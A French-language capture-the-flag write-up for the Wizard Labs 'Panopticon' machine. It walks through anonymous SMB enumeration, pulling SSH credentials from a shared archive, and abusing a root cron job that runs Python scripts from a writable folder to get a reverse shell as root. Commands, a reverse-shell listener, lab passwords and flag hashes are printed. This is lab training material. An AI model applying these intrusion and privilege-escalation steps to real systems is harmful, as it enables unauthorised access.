 ```yaml
---
title: Solution du CTF Panopticon de Wizard Labs
tags: [CTF, WizardLabs]
---
```


Emoticon
--------

*Panopticon* est un CTF basé Linux proposé sur [Wizard Labs](https://labs.wizard-security.net/).  

Il est annoncé avec une difficulté de 2/10 donc facile :p   

Lexicon
-------

La machine dispose d'un serveur SSH, d'un serveur web Apache ainsi que des ports 139 et 445 rattachés au service Samba.  

L'utilitaire *enum4linux* est généralement utile pour l'énumération SMB. Il indique ici la présence d'un partage de fichier et la possibilité des connexions anonymes (NULL sessions):  

```plain
 =========================================
|    Nbtstat Information for 10.1.1.34    |
 =========================================
Looking up status of 10.1.1.34
    PANOPTICON      <00> -         B <ACTIVE>  Workstation Service
    PANOPTICON      <03> -         B <ACTIVE>  Messenger Service
    PANOPTICON      <20> -         B <ACTIVE>  File Server Service
    WORKGROUP       <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
    WORKGROUP       <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

    MAC Address = 00-00-00-00-00-00

 ==================================
|    Session Check on 10.1.1.34    |
 ==================================
[+] Server 10.1.1.34 allows sessions using username '', password ''
```

Le partage se nomme *public* :  

```plain
[+] Attempting to map shares on 10.1.1.34
//10.1.1.34/public  Mapping: OK, Listing: OK
//10.1.1.34/IPC$    [E] Can't understand response:
```

Et l'énumération des utilisateurs remonte deux entrées intéressantes :  

```plain
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\seer (Local User)
S-1-22-1-1001 Unix User\guest (Local User)
```

Voyons voir ce qu'il y a sur ce partage :  

```plain
$ smbclient -U "" -N -I 10.1.1.34 //panopticon/public
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jun 17 17:17:11 2018
  ..                                  D        0  Sat Feb 24 20:27:52 2018
  old-site.zip                        N   427943  Sat Feb 24 20:57:47 2018

        15415240 blocks of size 1024. 13458436 blocks available
smb: \> get old-site.zip
getting file \old-site.zip of size 427943 as old-site.zip (772,5 KiloBytes/sec) (average 772,5 KiloBytes/sec)
```

Une fois cette archive décompressée on trouve des identifiants dans le fichier *php-site-master/app/config/config.php* :  

```php
    'database' => array(
        'adapter' => 'mysql',
        'host' => 'localhost',
        'username' => 'seer',
        'password' => 'IS33Something',
        'dbname' => 'php_site'
    ),
```

Silicon
-------

Une recherche rapide dans le code PHP à la recherche de fonctions exploitables (*include*, *require*, *exec*, *passthru* et compagnie) ne retourne rien d'intéressant.  

Peu importe car les identifiants nous ouvrent les portes du serveur SSH :)  

L'utilisateur *seer* fait partie de la plupart des groupes que l'on voit de nos jours sur un système Linux mais n'est pas dans le groupe *sudo*.  

En dehors du flag je remarque un fichier texte intéressant :  

```plain
$ ls -l ..
total 20
drwxrwxrwx 2 root root 4096 Dec  2 16:21 dev_departement
drwxr-xr-x 2 root root 4096 Feb 24  2018 personal
drwxr-xr-x 2 root root 4096 Feb 24  2018 stuff
drwxr-xr-x 2 root root 4096 Feb 24  2018 tools
-rw-r--r-- 1 seer seer   33 Jun 17 16:55 user.txt

seer@Panopticon:~$ cat user.txt
6d3934480b23c0ca3d164cf19fa11946

seer@Panopticon:~$ cat dev_departement/dev.txt
Hello Seer !! You are the only script developper in this departement ... Like I said you , please drop here all your scripts maybe they can make my life easier :)

Brenda&
```

Intéressant... Ça laisse supposer que l'on peut laisser des scripts dans l'un des dossiers et attendre que *Brenda* les exécute.  

Pourtant pas d'utilisateur *brenda* sur le système, juste nous et *root*. On peut donc espérer une escalade de privilèges directement vers root.  

Mais j'ai beau avoir placé un script ou un binaire à différents emplacements autorisés (l'accès est impossible sur certains, voir le résultat de *ls* ci-dessus), rien ne semble exécuté.  

Une recherche sur l'utilisateur courant a remonté une entrée étrange dans */etc/issue* :  

```plain
seer@Panopticon:~$ grep -r seer /etc/ 2> /dev/null
/etc/aliases:root: seer
/etc/issue:2. in /home/seer/flag2.txt
/etc/services:afs3-bos  7007/tcp            # basic overseer process
/etc/subgid:seer:100000:65536
/etc/subuid:seer:100000:65536
/etc/passwd:seer:x:1000:1000:seer,,,:/home/seer:/bin/bash
/etc/group:cdrom:x:24:seer
/etc/group:floppy:x:25:seer
/etc/group:audio:x:29:seer
/etc/group:dip:x:30:seer
/etc/group:video:x:44:seer
/etc/group:plugdev:x:46:seer
/etc/group:netdev:x:108:seer
/etc/group:seer:x:1000:
seer@Panopticon:~$ cat /etc/issue
Welcome to Panopticon.

There are 3 flags to be found.

1. in /home/guest/public/flag1.txt
2. in /home/seer/flag2.txt
3. in /root/flag3.txt

This machine is made in order to test the mindset and not the technical
knowledge, although some basic pentesting experience is needed.

Enjoy and give me some feedback at perselis.e@gmail.com or
at facebook on the name emmanouil perselis.

Made by AXANO
IP: \4
```

Il semble que le premier flag ne soit plus d'actualité. Cela ne nous avance pas plus que ça.  

En revanche la recherche a mis en évidence l'alias mail de *seer* pour root (dans */etc/aliases*) et effectivement au bout d'un moment j'ai la notification d'un mail reçu dans le terminal.  

```plain
seer@Panopticon:~$ mail
"/var/mail/seer": 26307 messages 26307 new
>N   1 seer               Fri Feb 23 21:26  16/729   *** SECURITY information for Panopticon.Panopticon ***
 N   6 Cron Daemon        Sat Feb 24 21:30  35/1495  Cron <root@Panopticon> /home/seer/update.sh
 N  21 Cron Daemon        Sat Feb 24 22:04  44/2198  Cron <root@Panopticon> /home/seer/.update.sh
```

On voit ici que l'utilisateur a 26307 messages dans sa boîte ^\_^.  

*mail* est un vieux programme permettant l'envoi et la lecture du courrier depuis */var/spool/mail*.  

On peut lister les mails avec la commande *'l'*, afficher le contenu d'un message en rentrant son numéro, supprimer avec *'d'* suivi du numéro pour supprimer un email (ou l'astérisque pour tout supprimer) et enfin *'q'* pour quitter.  

Ici on voit qu'une tache *crontab* tente de lancer le script */home/seer/update.sh* ou */home/seer/.update.sh*.  

J'ai donc placé un script qui place un bash setuid à ces emplacements mais au bout d'un moment toujours rien :(.  

Favicon
-------

Finalement nouveau mail reçu :  

```plain
You have new mail in /var/mail/seer
 U2625 Cron Daemon        Sun Dec  2 14:48  23/849   Cron <root@Panopticon> bash /var/tmp/.lol.sh
python3: can't open file '*.py': [Errno 2] No such file or directory
```

J'aurais du aller lire le dernier email directement :p  

On a donc un script dans */var/tmp* qui essaye d'exécuter tous les scripts Python (on suppose dans le même dossier car le script n'est pas lisible) :  

```plain
-rwx------ 1 root root 125 Jun 27 14:38 /var/tmp/.lol.sh
```

J'ai eu recours [au reverse shell PTY Python d'Infodox](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_backconnect.py) et après un moment ça a payé :  

```plain
$ python2 tcp_pty_shell_handler.py -b 0.0.0.0:7777
root@Panopticon:/home/seer/dev_departement# id
uid=0(root) gid=0(root) groups=0(root)
root@Panopticon:/home/seer/dev_departement# cd /root
root@Panopticon:~# ls
root.txt
root@Panopticon:~# cat root.txt
8b470f864495744fcd8c3dc7b370e889
root@Panopticon:~# crontab -l
# Edit this file to introduce tasks to be run by cron.
#
# Each task to run has to be defined through a single line
# indicating with different fields when the task will be run
# and what command to run for the task
#
# To define the time you can provide concrete values for
# minute (m), hour (h), day of month (dom), month (mon),
# and day of week (dow) or use '*' in these fields (for 'any').#
# Notice that tasks will be started based on the cron's system
# daemon's notion of time and timezones.
#
# Output of the crontab jobs (including errors) is sent through
# email to the user the crontab file belongs to (unless redirected).
#
# For example, you can run a backup of all your user accounts
# at 5 a.m every week with:
# 0 5 * * 1 tar -zcf /var/backups/home.tgz /home/
#
# For more information see the manual pages of crontab(5) and cron(8)
#
# m h  dom mon dow   command

*/2 * * * * bash /var/tmp/.lol.sh
root@Panopticon:~# cat /var/tmp/.lol.sh
cd /home/seer/dev_departement
for f in *.py; do  # or wget-*.sh instead of *.sh
  python3 "$f"   || break # if needed
done
```


*Published November 17 2020 at 13:38*
